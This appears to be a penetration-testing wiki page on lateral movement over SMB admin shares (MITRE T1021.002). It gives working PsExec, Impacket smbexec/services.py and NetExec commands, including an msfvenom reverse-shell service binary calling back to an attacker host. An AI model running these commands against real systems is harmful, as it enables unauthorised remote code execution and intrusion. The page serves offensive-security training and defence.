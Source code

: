 ```yaml
---
description: 'MITRE ATT&CK™ Remote Services: SMB/Windows Admin Shares - Technique T1021.002'
---
```


# SMB-based

## Theory

[SMB Protocol](../delivery/protocols/smb.md) can be abuse by attackers to execute remote code and perform lateral movements.

## Practice

### PsExec

Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```

We may manually replicate techniques use by PsExec with [service.py](https://github.com/fortra/impacket/blob/master/examples/services.py) from impacket

```bash
# Create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py WORKGROUP/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py WORKGROUP/<user>@<TARGET> start -name shell-svc
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Windows Sysinternals tools

```powershell
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
{% endtab %}
{% endtabs %}

### SmbExec

SmbExec is an [Impacket](https://github.com/fortra/impacket) script that works similarly to PsExec without using RemComSvc. The main difference is that smbexec avoids transferring a potentially detectable binary to the target site. Instead, it lives completely off the land by running the local Windows command shell. \
implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine **does NOT have a writeable share** available.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
#Semi-interactive shell (doesn't need writable share on the target)
smbexec.py <domain>/<username>:<password>@<host>
```
{% endtab %}
{% endtabs %}

### NetExec

You can utilize [NetExec](https://github.com/Pennyw0rth/NetExec) as a powerful alternative to SMBexec or PsExec for executing code over SMB connections. You can specify the execution methode and the shell interpretor (cmd or powershell.

{% tabs %}
{% tab title="UNIX-like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) can execute a remote process.

```bash
#Execute cmd command through smbexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method smbexec -x whoami

#Execute powershell command through atexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method atexec -X whoami

#Execute powershell (32bits) command through default wmiexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --force-ps32 -X whoami
```
{% endtab %}
{% endtabs %}
